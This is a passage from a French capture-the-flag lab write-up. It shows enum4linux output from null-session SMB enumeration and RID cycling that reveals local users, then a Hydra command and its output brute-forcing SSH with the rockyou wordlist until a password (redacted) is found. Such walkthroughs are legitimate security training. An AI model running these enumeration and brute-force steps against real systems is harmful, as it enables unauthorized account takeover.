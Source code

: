 \===================================== 
|    Session Check on 10.10.53.133    |
 \===================================== 
[+] Server 10.10.53.133 allows sessions using username '', password ''

 \=========================================== 
|    Getting domain SID for 10.10.53.133    |
 \=========================================== 
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 \============================= 
|    Users on 10.10.53.133    |
 \============================= 
Use of uninitialized value $users in print at /root/Desktop/Tools/Miscellaneous/enum4linux.pl line 876.
Use of uninitialized value $users in pattern match (m//) at /root/Desktop/Tools/Miscellaneous/enum4linux.pl line 879.

Use of uninitialized value $users in print at /root/Desktop/Tools/Miscellaneous/enum4linux.pl line 892.
Use of uninitialized value $users in pattern match (m//) at /root/Desktop/Tools/Miscellaneous/enum4linux.pl line 894.

 \======================================================================= 
|    Users on 10.10.53.133 via RID cycling (RIDS: 500-550,1000-1050)    |
 \======================================================================= 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
[...expurgé pour brièveté...]
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\[...expurgé...] (Local User)
S-1-22-1-1001 Unix User\[...expurgé...] (Local User)
{% endcapture %}
{% include elements/spoil.html %}

Nous lançons ensuite {% include dictionary.html word="Hydra" %} sur les services SSH pour trouver le mot de passe de l'utilisateur J.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.53.133
```

{% capture spoil %}
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-08 17:31:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.53.133:22/
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 14344222 to do in 1358:22h, 16 active
[STATUS] 128.33 tries/min, 385 tries in 00:03h, 14344013 to do in 1862:52h, 16 active
[22][ssh] host: 10.10.53.133   login: [..expurgé...]   password: [..expurgé...]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-08 17:38:28
{% endcapture %}
{% include elements/spoil.html %}
